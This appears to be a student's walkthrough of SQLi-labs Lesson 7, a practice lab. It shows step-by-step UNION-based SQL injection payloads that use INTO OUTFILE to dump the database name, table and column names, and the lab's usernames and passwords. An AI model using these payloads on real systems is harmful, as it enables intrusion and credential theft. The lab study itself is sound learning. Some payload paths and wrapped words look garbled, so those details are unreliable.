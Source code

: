﻿We start off by giving an id parameter to start off with the injection after which we are greeted with a page that says “You are in…. Use outfile…… “

**PAYLOAD:**”localhost/sqli/Less-7/?id=1”

![](Aspose.Words.bc575bc4-1aae-4150-a934-1fb6223acf00.001.jpeg)

As we can see even though we put any other payload like order by ar union type payload we will still get the same page, now to dump the data we will need to have another file (aka outfile). What we basically have to do is add the outfile function in the payload we have and direct the data to this particular file.

1.“localhost/sqli/Less-7/?id=1')) union all select 1,2,3” 2.“localhost/sqli/Less-7/?id=1')) order by 3”

The page remains unchanged.

![](Aspose.Words.bc575bc4-1aae-4150-a934-1fb6223acf00.002.jpeg)

Now we will modify the payload with the above functionality of outfile

**PAYLOAD:**”localhost/sqli/Less-7/?id=1')) union all select 1,2,3 into outfile "dump.txt/home/rahulkrishnan/Desktop"--+”

![](Aspose.Words.bc575bc4-1aae-4150-a934-1fb6223acf00.003.jpeg)

The output will be now directed to the outfile and printed in it like so



|1|Dumb|Dumb|
| - | - | - |
|1|2|3|


![](Aspose.Words.bc575bc4-1aae-4150-a934-1fb6223acf00.004.jpeg)

We can do the same sql injection functions but the only difference is that the outcome or output will be now redirected and printed into a outfile.

Now we will continue by checking the database that the data is present in. **PAYLOAD:** “localhost/sqli/Less-7/?id=1')) union all select database(),2,3 into outfile "dump.txt/home/rahulkrishnan/Desktop"--+”



|1|Dumb|Dumb|
| - | - | - |
|security|2|3|


![](Aspose.Words.bc575bc4-1aae-4150-a934-1fb6223acf00.005.jpeg)

We will now concat the table names of the database to the outfile using the following payload

**PAYLOAD:** “localhost/sqli/Less-7/?id=1')) union all select group\_concat(table\_name),2,3 into outfile "dump.txt/home/rahulkrishnan/Desktop"--+”

**OUTPUT:**



|1|Dumb|Dumb|
| - | - | - |
|emails,referers,uagents,users|2|3|


![](Aspose.Words.bc575bc4-1aae-4150-a934-1fb6223acf00.006.jpeg)

We will now find the columns that are present in the table users using the following payload **PAYLOAD:** ”<http://localhost/sqli/Less-7/?id=1%27>))%20union%20all%20select%20group\_concat(column\_n ame),2,3%20from%20information\_schema.columns%20where%20table\_name=%22users%22 %20into%20outfile%20%22dump.txt/home/rahulkrishnan/Desktop%22--+”

**OUTPUT:**



|1|Dumb|Dumb|
| - | - | - |
|id,login,password,email,secre t,activated,reset\_code,admin, user\_id,first\_name,last\_name ,user,password,avatar,last\_lo gin,failed\_login,USER,CURR ENT\_CONNECTIONS,TOTA L\_CONNECTIONS,id,userna me,password|2|3|
Now we will concat the username and the password from the columns conceited from above.

![](Aspose.Words.bc575bc4-1aae-4150-a934-1fb6223acf00.007.jpeg)

**PAYLOAD:**

“localhost/sqli/Less-7/?id=1')) union all select group\_concat(username),group\_concat(password),3 from users into outfile "dump.txt/home/rahulkrishnan/Desktop"--+”

**OUTFILE:**



|1|Dumb|Dumb|
| - | - | - |
|Dumb,Angelina,Dummy,secur e,stupid,superman,batman,ad min,admin1,admin2,admin3,d hakkan,admin4|Dumb,I-kill-you,p@ssword,cr appy,stupidity,genious,mob!le ,admin,admin1,admin2,admin 3,dumbo,admin4|3|

